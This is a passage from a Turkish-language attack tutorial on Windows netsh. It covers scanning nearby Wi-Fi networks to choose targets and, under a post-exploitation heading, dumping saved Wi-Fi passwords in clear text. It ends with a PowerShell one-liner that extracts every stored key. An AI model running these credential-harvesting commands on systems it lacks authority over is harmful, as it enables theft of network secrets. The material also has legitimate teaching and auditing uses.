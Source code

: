 1.  **Basit Tarama (`mode=ssid`):**
    Bu komut, çevredeki ağların SSID'lerini (ağ adlarını) listeler.
    ```powershell
    netsh wlan show network
    ```
2.  **Detaylı Tarama (`mode=bssid`) ve Çıktı Analizi:**
    Bu komut, her bir AP hakkında çok daha detaylı bilgi verir.
    ```powershell
    netsh wlan show network mode=bssid
    ```
    Çıktıda her bir ağ için şu bilgileri görebilirsiniz:
    *   `SSID`: Ağın adı.
    *   `Network type`: Ağ türü (Infrastructure).
    *   `Authentication`: Kimlik doğrulama (WPA2-Personal, WPA3-Personal vb.).
    *   `Encryption`: Şifreleme (CCMP, GCMP).
    *   `BSSID`: AP'nin MAC adresi.
    *   `Signal`: Sinyal gücü (yüzde olarak).
    *   `Channel`: AP'nin çalıştığı kanal.

Bu bilgiler, bir hedef belirlemek ve Kali Linux'ta yapacağınız saldırıyı planlamak için (örneğin, hangi kanala odaklanacağınızı bilmek) son derece değerlidir.

#### Sızma Sonrası Bilgi Toplama (Post-Exploitation)

Bir Windows sistemine erişim sağladığınızda, `netsh` en değerli araçlarınızdan biri haline gelir. Sistemde daha önce bağlanılmış olan tüm Wi-Fi ağlarının şifrelerini açık metin olarak elde edebilirsiniz.

1.  **Kayıtlı Profilleri Listeleme (`show profiles`):**
    Bu komut, bilgisayarda kayıtlı olan tüm Wi-Fi ağ profillerini listeler.
    ```powershell
    netsh wlan show profiles
    ```
2.  **Kayıtlı Şifreleri Açık Metin Olarak Görme (`key=clear`):**
    Belirli bir profilin şifresini görmek için:
    ```powershell
    netsh wlan show profile name="<Profil_Adı>" key=clear
    ```
    Çıktıda, "Security settings" bölümü altında "Key Content" satırında ağın şifresini göreceksiniz. Bu komutu yönetici hakları olmadan da çalıştırabilirsiniz.

3.  **PowerShell ile Otomatik Bilgi Çıkarma:**
    Tüm kayıtlı profillerin şifrelerini tek seferde çekmek için basit bir PowerShell betiği kullanabilirsiniz.
    ```powershell
    # Tüm Wi-Fi profillerini ve şifrelerini listeleyen PowerShell komutu
    (netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content|SSID name" | Write-Host
    ```
